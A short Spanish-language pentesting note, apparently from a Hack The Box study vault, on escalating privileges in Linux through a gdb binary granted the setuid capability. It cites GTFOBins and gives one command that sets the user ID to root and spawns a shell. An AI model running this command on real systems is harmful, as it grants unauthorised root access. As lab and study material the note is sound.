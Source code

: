 
## DESCRIPTION

Escalada de privilegios usando la siguietne capabilitie:

![[Pasted image 20230518100510.png]]

#### Mas información
* https://gtfobins.github.io/gtfobins/gdb/


## EXPLOITATION

```
/usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

![[Pasted image 20230518100610.png]]

## MACHINES

* Hack The Box: 
